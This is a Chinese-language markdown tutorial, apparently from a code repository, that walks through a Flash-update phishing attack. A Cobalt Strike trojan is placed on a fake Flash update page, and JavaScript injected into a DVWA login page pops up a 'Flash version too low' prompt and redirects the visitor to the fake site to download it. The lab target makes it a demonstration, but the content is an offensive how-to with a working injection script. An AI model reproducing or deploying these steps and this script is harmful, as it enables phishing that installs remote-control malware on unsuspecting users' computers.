





# 1.Flash网页钓鱼

## 简介

Flash钓鱼攻击是一种网络攻击手段，旨在欺骗用户访问伪造的Flash更新页面，并诱使他们下载并安装恶意软件。这种攻击通常利用用户对Flash更新的需求，以及对合法更新网站的信任。攻击者通常会模仿Adobe Flash Player的官方更新页面，以提高诱骗成功率


## 步骤

### 1.CS生成木马

运行Cobalt Strike生成可执行木马，并将其放到伪造的flash网站的根目录，用于被受害用户下载




### 2.部署flash钓鱼页面

部署flash钓鱼页面，此处我使用phpstudy进行部署

	


修改flash钓鱼页面`index.html`，在“立即下载处”将超链接修改成木马的所在地址




### 3.目标页面置入JS代码

此处我以dvwa靶场来作为目标页面, 在dvwa的登录页面插入如下`javascript`代码, 用于实现弹框并跳转至flash钓鱼网址

```html
<script>
    function redirectToFlashUpdate() {
      // 指定要跳转的URL链接
      const flashUpdateUrl = 'http://www.flash.com:81’;
      
      // 创建一个弹框，提示用户Flash版本过低
      const userResponse = confirm('Flash版本过低，请到Flash官网进行升级。');

      // 如果用户点击确定按钮，则跳转到指定的URL链接
      if (userResponse) {
        window.location.href = flashUpdateUrl;
      }
    }

    // 在页面加载完成后执行redirectToFlashUpdate函数
    window.onload = redirectToFlashUpdate;
</script>
```




## 操作演示

访问dvwa页面，页面出现弹框，此处询问是否升级flash，若点击确定，则会下载我们准备的CS木马

	


